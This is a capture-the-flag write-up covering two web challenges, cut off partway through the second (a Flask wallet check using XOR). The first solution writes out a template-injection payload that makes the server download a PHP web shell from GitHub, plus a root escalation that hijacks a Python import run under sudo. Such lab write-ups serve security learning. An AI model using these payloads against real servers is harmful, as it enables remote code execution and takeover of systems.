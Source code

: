 # Info

This was a fun and quick CTF with easy to medium difficulty challenges. It was on 1st of Mai and ran only for 8 hours.
I concentrated mostly on web challenges and tried to score a firstblood in the end on a misc challenge, which I only solved
30 minutes after the deadline.

I played again with the World Wide Flags team and we came in 3rd place. (3/106 = 2.8%)

## Writeups

### Web

#### Crazypickles

This was a blackbox web challenge.
We are greeted by a simple form. Providing card-details, we can see that the card number is reflected on the next page.
So we try to do SSTI and are actually successful with the payload `{{10*2}}` (We are greeted by `20`).

In order to exploit this, we upload a shell with the payload `{{['curl+https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php+>+shell.php']|filter('system')}}` (props to @Kli)

Once we are in, `sudo -l` shows us, that we have sudo rights to run some python script. It doesn't look vulnerable at first glance, but then we see that
we import libraries (`import re`).
We can thus simply `cat` the flag file by hijacking this import:

`echo "def find_all(): import os; os.system('cat /root/flag.txt')" > re.py`

And now, when we run the main script with sudo, it will import re and call find_all, so root will cat the flag for us. Thanks root!

#### Cryptopro

Next up was cryptopro, a whitebox web challenge. It contains a Flask server. The main point of interest is here:

```
@app.route('/load', methods=['POST', 'GET'])
def load():
    try:
        uploaded_file = request.files['file']
        if uploaded_file.filename != '':
            uploaded_file.save('wallet.bin')
            with open('wallet.bin', 'rb') as f:
                data = f.read()

                encrypt_key_bytes = encrypt_key.encode('utf-8')

                tmp = b""
                for i in range(len(data)):
                    tmp += bytes([data[i] ^ encrypt_key_bytes[i %
                                    len(encrypt_key_bytes)]])
                balance_data = tmp[:-1]
                decrypted_secret_number_index = tmp[-1:]
                decrypted_secret_number = int.from_bytes(decrypted_secret_number_index, byteorder='big')

                if decrypted_secret_number != secret_number:
                    return render_template('index.html', error='The wallet is not signed by our service!')

```